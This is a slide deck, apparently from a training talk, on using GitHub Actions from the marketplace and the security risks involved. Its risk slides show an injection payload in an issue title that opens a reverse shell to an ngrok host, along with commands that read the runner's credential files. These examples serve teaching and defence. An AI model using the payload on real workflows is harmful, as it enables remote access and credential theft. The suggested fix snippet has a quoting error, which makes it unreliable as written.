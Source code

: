 <!-- .slide: -->
# Marketplace
## 👉 [How to use](https://github.com/marketplace?type=actions)

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace

## Using versioned actions

```yaml[]
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference a specific version
  - uses: actions/checkout@v4.1.7
    
  # Reference the major version of a release
  - uses: actions/checkout@v4
    
  # Reference a branch
  - uses: actions/checkout@main
```

##==##
<!-- .slide: class="with-code" -->

# Use a GitHub Action from the marketplace


### Inputs

```yaml[]
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

### Outputs

```yaml[]
- name : setup node
  id: my-id
  uses: actions/setup-node@v4
  with:
    node-version: '14'
- name: run test
  shell: bash
  run: |
    echo ${{ steps.my-id.outputs.node-version }}
```

Notes:

Gaetan

Reference in docker hub
from local folder (.github/action)

##==##
<!-- .slide: -->
# Useful actions

* 👉 [**actions/checkout**](https://github.com/marketplace/actions/checkout)

  * allows to check out a repository 
  * github_token, ref, depth, path, ... customization

* 👉 [**actions/setup**](https://github.com/marketplace?type=actions&query=setup+)

  * allows to install a tool
  * provided by GitHub and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* 👉 [**actions/dependency-review-action**](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raises an error if vulnerabilities are found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Step of our GitHub Actions

```yaml[]
- run: |
    echo "ISSUE TITLE: ${{github.event.issue.title}}"
    ISSUE_DESCRIPTION="${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action

  * Title => ```New title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "```
  * Description => `a"; ls $GITHUB_WORKSPACE"`

* Let's fix it :

```yaml[]
- env:
    TITLE: ${{ github.event.pull_request.title }}
    DESCRIPTION: ${{github.event.issue.body}}
  run: |
    echo "ISSUE TITLE: "$TITLE"
    echo "ISSUE DESCRIPTION: $DESCRIPTION"
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->
# Risk
## Example

* Credential 

```yaml[]
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml[]
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
